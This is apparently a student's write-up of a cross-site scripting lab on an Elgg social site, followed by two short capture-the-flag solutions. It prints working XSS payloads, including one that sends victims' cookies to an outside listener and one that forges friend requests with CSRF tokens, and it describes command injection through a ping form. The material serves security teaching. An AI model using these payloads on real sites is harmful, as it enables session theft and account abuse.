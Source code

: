 **Trabalho Realizado na Semana #10**

**Lab Tasks**

**3.2 Task 1: Posting a Malicious Message to Display an Alert Window**

* In the first task we needed to make the script 
```html
<script>alert(’XSS’);</script>
```
run everytime that someone opens our profile.
* We entered the site as alice and in the about me section on the edit profile tab if we select the option to edit html we can simple enter the script like in the image and an alert sying 'XSS' will pop-up everytime someno enters that profile.

![](img/lab10/edit_profile.png)
![](img/lab10/alert2.png)

**3.3 Task 2: Posting a Malicious Message to Display Cookies**

* Now we needed to inject some js code that would display the cookies to the user entering the profile we can achieve this by using the same methode that we used in the last task but this time the script will be:
```html 
<script>'alert(document.cookie);'.</script>
```

![](img/lab10/cookieScript.png)
![](img/lab10/cookieAlert2.png)

**3.4 Task 3: Stealing Cookies from the Victim’s Machine**

* In this task we needed to make the script send the cookies to our computer we can achieve this by making the browser send a get request to us with the cookies information in the request, this is made by making the browser request a resource from our machine.
```html
<script>document.write(’<img src=http://10.9.0.1:5555?c=’
+ escape(document.cookie) + ’ >’);
</script>
```
Then we can use netcat to make our machine listen to any requests it gets.

![](img/lab10/cookiesScrpit2.png)
![](img/lab10/cookiesInPc.png)

**3.5 Task 4: Becoming the Victim’s Friend**

* In this task we needed to make a script that makes the person o visits our profile add us as friend we can achieve this with this script:
```html
<script type="text/javascript">
window.onload = function () {
	var Ajax=null;
	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
	var token="&__elgg_token="+elgg.security.token.__elgg_token;
	//Construct the HTTP request to add Samy as a friend.
	var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token; //FILL IN
	//Create and send Ajax request to add friend
	Ajax=new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
}
</script>
```

* We discovered the url to add to the script by using the HTTP Header Live tool, we sended a legitimate friend request to samy to discover what the request would look like:

![](img/lab10/header.png)

* Then we just inject the script into our profile using the same technique as before:

![](img/lab10/script.png)

* And now if we visit samy's profile as onether user we add him as friend:

![](img/lab10/visitProfile.png)
![](img/lab10/friendlist.png)

* Question 1: The porpuse of this lines is to send a valid elgg token in our forged request so that the server thinks the request is from a legitimate user.

* Question 2: We couldn't launch a successful attack since the editor mode doesn't allow us to introduce special characters such as <> so we could not use html tags.


# CTF

**Semana 10 - Desafio 1**

Firstly, we figured out that, no matter what we inputted, the flag was not given to us, so we took some time to check the flag giving web page.

![](https://i.imgur.com/bu8puLp.png)

We discovered quickly that the "Give the flag" rectangle was a clickable button.
So, by embeding a javascript shellcode that clicked the button, we were able to retrieve the flag
![](https://i.imgur.com/CP2uzfa.png)


![](https://i.imgur.com/V3yCCiM.png)



**Semana 10 - Desafio 2**

![](https://i.imgur.com/tjqrbBl.png)

Challenge two was a bit simpler, since, by browsing the website given to us, we figured out that when we pressed the Here link at the bottom of the page we were redirected to a form in which we could input a certain IP address to ping.

We realised that this form was nothing more than a linux client console so, by inputting a random IP address and the command to print the contents of the flag.txt file in the directory flags we were able to retrieve the desired flag

![](https://i.imgur.com/JLr4b7s.png)
![](https://i.imgur.com/XGDycyv.png)
